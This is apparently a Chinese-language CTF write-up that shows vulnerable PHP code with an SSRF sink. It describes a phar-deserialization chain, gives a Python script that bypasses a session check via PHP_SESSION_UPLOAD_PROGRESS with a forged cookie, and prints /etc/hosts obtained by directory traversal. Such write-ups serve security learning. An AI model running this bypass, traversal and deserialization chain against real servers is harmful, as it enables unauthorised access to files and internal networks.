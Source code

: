 ```PHP
        }
        $url = $this->schema . $this->source;
        $curl = curl_init();
        curl_setopt($curl, CURLOPT_URL, $url);
        curl_setopt($curl, CURLOPT_RETURNTRANSFER, 1);
        curl_setopt($curl, CURLOPT_HEADER, 1);
        $response = curl_exec($curl);
        curl_close($curl);
        $src = "data:jpg;base64,".base64_encode($response);
        echo "<img src={$src} />";

    }
    public function __wakeup()
    {
        if ($this->schema !== 'file:///var/www/html/') {
            $this->schema = 'file:///var/www/html/';
        }
        if ($this->source !== 'admin.png') {
            $this->source = 'admin.png';
        }
    }
}
```

思路：还是利用index.php上传文件，进入upload.php中(包含了class.php)的`upload`函数中

在class.php中的upload里，先检查文件后缀(白名单)，有个showfile.php，可以文件包含，说明可以利用phar反序列化，最后就是利用反序列化去打`AdminShow`中的SSRF

第一个绕过：发现guest是上传不了文件的，需要绕过$_SESSION

需要SESSION，我们就上传SESSION,利用`PHP_SESSION_UPLOAD_PROGRESS`带上`cookie`

测试绕过：

```python
import requests
import io
url = "http://47.104.95.124:8080/upload.php"
f = io.BytesIO(b"a" * 1024 * 50)
res=requests.post(url=url,data={"PHP_SESSION_UPLOAD_PROGRESS": "12345"},files={"file": open("1.png", "rb")},cookies={"PHPSESSID": "12345"})
print(res.text)
```

有上传文件的回显，成功绕过

顺便通过上面的目录穿越，看下/etc/hosts，存在内网

```text
127.0.0.1        localhost
::1        localhost ip6-localhost ip6-loopback
fe00::0        ip6-localnet
ff00::0        ip6-mcastprefix
ff02::1        ip6-allnodes
ff02::2        ip6-allrouters
172.18.0.2        3b35825919ae
10.10.10.5        3b35825919ae
```
